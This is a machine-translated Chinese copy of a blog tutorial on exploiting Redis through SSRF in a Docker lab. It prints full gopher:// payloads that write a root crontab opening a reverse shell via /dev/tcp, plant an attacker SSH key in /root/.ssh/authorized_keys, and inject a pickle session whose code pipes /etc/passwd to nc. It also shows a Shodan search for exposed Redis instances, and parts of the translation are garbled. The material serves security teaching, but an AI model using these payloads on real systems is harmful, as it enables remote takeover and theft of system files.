# 通过 SSRF 攻击利用 Redis

> 原文：<https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b?source=collection_archive---------1----------------------->

Redis 是一种内存中的数据结构存储，用于存储键值形式的数据，可以用作数据库、序列化/会话存储、缓存和作业队列。

例如，在 Django 和 Flask 框架中，Redis 可以用作会话实例，或者在 Gitlab 中使用 Redis 作为作业队列。

Redis 使用了一个`Text Based line protocol`，所以可以使用`telnet`或`netcat`来访问它，而不需要特殊的软件来访问 Redis 实例，但是 Redis 有一个官方的客户端软件叫做`redis-cli`。‌

Redis 支持 2 种类型的命令:

‌ **1。**非 **-** RESP (REdis 序列化协议)格式通过使用空格作为分隔符。



**2。** RESP 格式，更推荐这种格式(因为这是 Redis 请求/响应的标准格式)，此外，如果 Redis 请求中有引号( " )等特殊字符，使用这种格式可以避免语法错误。



# 雷迪斯·command‌



# Redis 持久性

Redis 将数据存储在内存中，因此当服务器重新启动时，数据将会丢失，因为 RAM 是易失性存储，为了避免这个问题，Redis 具有持久性功能，可以将数据保存到硬盘上。

Redis 提供了两种类型的持久性:‌

*   RDB (Redis 数据库备份),每次执行“`SAVE`”命令时，都会将数据保存到硬盘上
*   AOF(仅附加文件)会在每次执行操作时将数据保存到硬盘上(基本上它的功能就像 *Bash Shell* 在每次成功执行命令时将命令历史保存到`.bash_history`)。

persistence‌的 Redis 配置参数



AOF 并不是编写文件的好选择(在这篇博文中的 SSRF 的上下文中)，因为 Redis 不允许使用`CONFIG SET`命令(在运行时)更改 AOF 文件名(默认情况下: *appendonly.aof* )，而是必须通过编辑文件`redis.conf`直接完成。

# Redis 漏洞

最后一个影响雷迪斯的漏洞利用是本墨菲发现的 ***雷迪斯 EVAL 卢阿沙盒逃逸——CVE-2015–4335***。但是，Redis 2 . 8 . 21 版和 3.0.2 版修复了此问题。‌

在写这篇博文的时候，还没有直接在 Redis 实例上获取 RCE 的漏洞，但是攻击者可以利用“持久性”特性，或者可能利用相关应用程序的不安全序列化，这样它就可以被用作获取 RCE 的技术。此外，还有“ [Redis 后开发](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)”发现帕维尔托波尔科夫得到 RCE 对 Redis 的实例。

# Redis Vs HTTP

Redis 和 HTTP 都是基于文本的协议，所以 HTTP 可以用来访问 Redis，但是因为它有可能导致安全问题，自从发布了 *Redis 3.2.7* ，使得 *HTTP Header* `HOST`和`POST`作为 *QUIT* 命令的别名，然后用消息*记录检测到可能的安全攻击。看起来好像有人在向 Redis 发送 POST 或 Host:命令。这可能是由于攻击者试图使用跨协议脚本来危害您的 Redis 实例。连接中止。*生成 Redis 日志。



他说:“我们需要一个团队来领导我们的工作。

如果要强制 HTTP 与 Redis ≥ *3.2.7* 通信，需要在 GET 参数段使用 SSRF (GET 方法)+ CRLF 注入。为了避免 *POST* 和 CRLF 注入关键字， *HOST* Header 将位于 Redis 命令之后的位置。‌

**花絮**:别名 POST to QUIT 是根据 news.ycombinator.com 论坛成员 *geocar* 的建议创建的。



‌

# 实验室设置

```
$ git clone [https://github.com/rhamaa/Web-Hacking-Lab.git](https://github.com/rhamaa/Web-Hacking-Lab.git)$ cd SSRF_REDIS_LAB$ docker-compose build && docker-compose up‌
```

# 实验室信息



SSRF 实验室网站

> 这篇博文中 [payload_redis.py](https://github.com/rhamaa/Web-Hacking-Lab/blob/master/SSRF_REDIS_LAB/payload_redis.py) 生成的每一个有效载荷，都会作为 URL 输入到 SSRF 实验室的网页中，所以不需要截图给实验室。给出这些信息是为了不混淆如何攻击。
> 
> 默认情况下，redis 以“Redis”用户的低特权运行。在实验中，我们使用 root 权限来写入 crontab 和 authorized_key ssh，因为用户“redis”没有权限写入这两个文件。‌

# 雷迪斯和 SSRF

# 雷迪斯-cron‌

Cron 是 Linux 上的一个任务调度器，cron 会根据设定的时间定期执行使用`crontab`命令设定的命令。

Cron 将 crontab 文件存储在`/var/spool/cron/<Username>`(Centos)`/var/spool/cron/crontabs/<Username>`(Ubuntu)中，系统范围的 crontab 文件存储在`/etc/crontabs`中。‌

实验将使用两种不同的操作系统，因为 Centos 上的 cron 和 Ubuntu 之间的行为略有不同。

```
$ python payload_redis.py cronReverse IP >Port >Centos/Ubuntu (Default Centos)gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2477%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/b%27XXX.XXX.XXX.XXX%27/8080%200%3E%261%27%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A‌
```

**Ubuntu 实验室** ‌

Redis 将使用 0644 权限写入文件，而 ubuntu 上的 crontab 文件预计将使用 0600 权限，因此它会在系统日志中给出警告。



此外， *Redis RDB* 文件中存在*伪*数据，导致 cron 因为存在无效语法而忽略 crontab 文件，所以即使 crontab 文件拥有 *0600* 权限，也不会被执行。



Cron 语法错误

> 通过 SSRF 用 Redis 编写 crontab 文件在 Ubuntu 中无法正常工作，因为 Ubuntu 中的 crontab 文件需要 0600 权限才能执行，并清除导致语法错误的伪数据。

**Centos 实验室**

在 Centos 上，即使 crontab 文件具有权限 0644 并且存在虚拟数据，cron 仍将被执行，以便它可以获得反向 shell。



# Redis — SSH 公共密钥

‌Authorized_keys 用于存储 SSH 公共密钥列表，以便用户使用 SSH 私有-公共密钥对而不是密码登录。授权 _ 钥匙位于`$HOME/.ssh/authorized_keys`

如果`$HOME/.ssh/authorized_keys`是可写的，这可以用来存储攻击者的 SSH 密钥。

```
$ python payload_redis.py sshgopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%24403%0D%0A%0D%0A%0D%0Assh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQDc4B6PTML3xiqId/qw8cJkPmwSbtdOsAS2IGUUk1ifRHZsdfgcFvj7fzMFo1ydGAOuZcGPeT838LQ3R8ruWe4B788Q5ZKRO6CZSoEmqs4FWuCz7QvwWu9%2B2kMH/6gUvVQAQNYD2RACXgJcCAm77bg/WHZfgGJYNtOKDUf%2B0V1ku%2B/h8ijsQJdkuk5Zr7w1xjOdigLs8ST7MivptfYGvbnh/XUk3Y2EfyoACmW0MpcnthdLL3s/8SOs5exekRNYYU9rn74itibDHlsYvukBtKhW/XOAPZ3T38qDf7PJyqPoOl%2BAQ8AaFwIBVfE7V1mPRCqZLkG97SRjMy1V9dhTgG4h%20rhama%40Inspiron-7472%0D%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/root/.ssh%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A====================================================After payload executed, try ssh root@server_hostname====================================================
```

即使存在虚拟数据，也可以访问 Ubuntu 和 Centos Lab ssh。



宋承宪 ke Ubuntu 实验室

# Redis 作为会话存储

后端服务器经常使用 Redis 作为会话存储，在 Redis web lab 中，会话存储将重点利用*不安全序列化*，因为*会话*通常是以对象的形式存在的，为了将这些对象存储到 Redis 中，必须将会话对象转换成字符串。将对象转换为字符串的过程称为“ ***序列化*** ”，将字符串转换为对象的过程称为“ ***反序列化*** ”。

实验室使用来自[服务器端会话的示例片段将 *Redis 实现为会话存储*，Redis](http://flask.pocoo.org/snippets/75/) 和 *Pickle* 用作*序列化器*，Pickle 是已知的不安全的，可被利用来获取 RCE。



攻击流程非常简单，我们只需要通过 SSRF 改变有效载荷 Pickle 的会话值。根据源代码中的逻辑，会话将被序列化并进行 base64 编码。

为了能够更改存储在 Redis 中的会话值，您需要一个密钥名，在本实验中，会话将以名称`session:<session_id>`存储



使用 redis-cli 检查 Redis 中的存储值

我们可以使用名为开发人员工具的默认 web 浏览器功能来查看会话 Id



**琐事:烧瓶内部**

当请求即将结束或视图返回时，Flask 将在内部调用`finalize_request`方法，然后在`finalize_request`方法中有另一个对从`session_interface`类调用`save_session`的`process_response`方法的调用，`save_session`方法将保存会话的值(在这篇博文的上下文中，会话值将保存到 Redis)。

为什么这些信息很重要？因为当我们试图通过 SSRF 更改 Redis 中 flask 会话的值时，我们之前通过 SSRF 更改的值将被原始值覆盖。

在 Pickle-Redis 实验室中，至少有 3 种情况可以对 RCE 进行存档:

1.  当 SSRF 有效载荷被执行时，我们同时访问其他端点，例如`/login`(这个方法可以使用*多线程/多处理*)因为当访问其他端点时，Flask 会调用`session_interface`类的`open_session`方法，然后检索会话值(所以要避免`save_session`)。
2.  更改 Session-Id 的值，然后将有效负载 Pickle 写入修改后的 Session-Id，例如会话 Id 是 AAAA-AAAA-AAAA-AAAA，我们可以将其更改为 AAAA-AAAA-AAAA-AAAB，然后将 AAAA-AAAA-AAAA-AAAA-AAAB 设置为 Key，稍后只需在客户端使用 AAAA-AAAA-AAAA-AAAA-AAAB，以便 Flask 读取会话 Id 的值。
3.  使用主从 Redis 功能(用`SLAVEOF`命令通过 SSRF 触发)，然后直接通过主服务器更改值，因为主服务器中发生的任何更改都会自动同步到从服务器。‌

在这篇博文中，我们将选择场景 2，

```
$ python2 payload_redis.py pickleKey name > session:8ac1cb48-5064-4067-9e43-ed0df6856425[http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1](http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1)cb48-5064-4067-9e43-ed0df6856425%0D%0A%2492%0D%0AY3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2V0Yy9wYXNzd2QgfCBuYyAxMjcuMC4wLjEgOTA5MScKcDEKdHAyClJwMwou%0D%0A
```

**注**:原 Session-Id*Session:8 ac1c b48–5064–4067–9e 43-ed 0 df 685642****6***改为*Session:8 ac1c b48–5064–4067–9e 43-ed 0 df 685642*

****

**Rce 结果，cat /etc/passwd | nc IP 端口**

# **Redis 主从 RCE**

**这种后开发技术是由 Pavel Toporkov 引入的。**

****

**我会写一篇单独的博客来解释更多关于这种后利用技术的内容。**

# **Redis 作为作业队列**

**使用 Redis 作为作业队列获取 RCE 的例子可以参考 LiveOverFlow Video。**

**GitLab 11.4.7 远程代码执行—真实世界 CTF 2018**

# **花絮:Redis 保护模式**

**如果 Redis 不处于保护模式，Redis 实例将暴露在外部网络/互联网上，如果 Redis 实例不使用身份验证，情况就更糟了，导致人们可以任意访问 Redis 实例。**

****

**在 SHODAN 搜索暴露的 Redis**

****

**访问公开的 Redis 实例**

# **参考**

*   **[https://www . leave songs . com/PENETRATION/write-webshell-via-redis-server . html](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)**
*   **【http://memaddr.com/rdb-aof-in-redis/ 号**
*   **[https://raw . githubusercontent . com/anti rez/redis/3.2/00-release notes](https://raw.githubusercontent.com/antirez/redis/3.2/00-RELEASENOTES)**
*   **[http://jkme.github.io/redis-hacker.html](http://jkme.github.io/redis-hacker.html)**
*   **[https://joy Chou . org/web/hackredis-enhanced-edition-script . html](https://joychou.org/web/hackredis-enhanced-edition-script.html)**
*   **[https://www . agar ri . fr/blog/archives/2014/09/11/trying _ to _ hack _ redis _ via _ http _ requests/index . html](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)**